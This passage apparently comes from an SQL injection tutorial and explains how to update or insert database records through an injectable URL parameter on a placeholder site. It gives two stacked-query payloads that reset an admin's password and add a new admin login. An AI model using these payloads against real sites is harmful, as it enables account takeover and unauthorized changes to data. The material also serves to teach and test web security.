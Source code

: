 #### 10. How to update/insert data into the database by SQL Injection?
When we successfully gather all column name of a table, it is possible for us to UPDATE or even INSERT a new record in the table. For example, to change password for "neo": 
```sql
http://duck/index.asp?id=10; UPDATE 'admin_login' SET 'password' = 'newpas5' WHERE login_name='neo'--
```
To `INSERT` a new record into the database: 
```sql
http://duck/index.asp?id=10; INSERT INTO 'admin_login' ('login_id', 'login_name', 'password', 'details') VALUES (666,'neo2','newpas5',&#39;NA')--
```
We can now login as `"neo2"` with the password of `"newpas5"`.
